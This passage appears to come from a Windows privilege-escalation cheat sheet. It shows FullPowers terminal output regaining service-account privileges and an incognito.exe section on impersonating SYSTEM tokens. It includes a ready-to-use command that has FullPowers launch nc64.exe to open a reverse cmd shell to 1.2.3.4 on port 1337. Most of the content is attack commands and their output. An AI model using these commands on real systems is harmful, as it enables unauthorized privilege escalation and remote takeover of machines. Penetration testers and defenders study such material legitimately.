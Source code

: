 ```powershell
# https://github.com/itm4n/FullPowers

c:\TOOLS>FullPowers
[+] Started dummy thread with id 9976
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled

c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
```

---

### Token Impersonation

> Incognito is a tool which can be used for privilege escalation, typically from Local Administrator to Domain Administrator

```powershell
incognito.exe list_tokens -u
```

```powershell
incognito.exe execute "NT AUTHORITY\SYSTEM" "cmd /c whoami >.\outout.txt"
```

---
